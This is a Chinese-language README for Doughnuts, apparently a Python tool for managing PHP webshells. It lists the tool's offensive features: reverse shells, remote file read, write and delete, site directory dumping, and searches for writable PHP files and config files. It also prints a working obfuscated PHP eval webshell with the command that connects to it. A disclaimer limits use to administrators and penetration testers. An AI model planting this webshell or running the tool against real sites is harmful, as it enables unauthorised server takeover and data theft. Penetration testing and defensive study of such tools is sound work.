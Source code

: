 # Doughnuts

*一个基于Python3.6+的PHPwebshell管理器*

# 更新

## V1.6

- 修复了若干bug
- 添加了reshell命令,监听本地端口,并让目标反弹一个完整交互式的shell(仅限双方系统都是linux且可能存在一定的问题)


## V1.5

- modify指令现在会调用notepad/vim进行编辑
- write指令现在会调用notepad/vim进行编辑
- dump命令现在使用原始php代码进行压缩,可以压缩子目录
- 优化了发送payload的间隔符

## V1.4

- 添加指令:修改文件
- 关闭debug模式
- 修复了某些情况下fwpf,fc指令无法使用的情况,现在发送数据时会关闭错误提示

## 特征

- 支持连接,记录,管理webshell,方便下一次连接
- 基于eval的连接,支持GET,POST,COOKIE,HEADERS四种连接方式
- 支持编码payload(已内置base64,str_rot13两种编码,可以通过添加encode文件夹中的py文件进行扩展),以实现连接带有解码的webshell
- 核心功能
    - 获取网站,系统信息
    - 获取一个临时的非完全交互式shell和webshell
    - 以php/python的方式反弹shell(windows/unix通用)
    - 读/写/上传/下载/删除网站文件
    - 网站目录打包下载
    - 寻找可写的PHP文件(以树状结构显示)
    - 寻找配置文件(文件名中包含cfg/config/db/database) 也可以通过修改代码来支持寻找更多的文件(以树状结构显示)
    - 输出disbale_functions
    - 端口扫描
- 易于扩展

## 依赖

- Python3.6+
- Python-requests
- Python-colorama

## 安装方法

```
安装PYTHON 3.6+
git clone https://github.com/WAY29/Doughnuts.git
进入Doughnuts目录下
pip install -r requirements.txt 或 pip install requests colorma
python doughnuts.py
enjoy it!
```

## 使用例子

假如要连接以下的webshell:

```php
<?php
error_reporting(0);
eval(str_rot13(base64_decode($_REQUEST['2333'])));/
?>
```

那么只需要运行Doughnuts.py,并输入以下命令:

```
connect http://localhost/test.php GET 2333 rot13 base64
```

即可成功连接至webshell

## 参考

灵感源自https://github.com/WangYihang/Webshell-Sniper

## 免责声明

本项目仅供网站管理人员与渗透测试人员学习与交流,任何使用本项目进行的一切未授权攻击行为与本人无关.

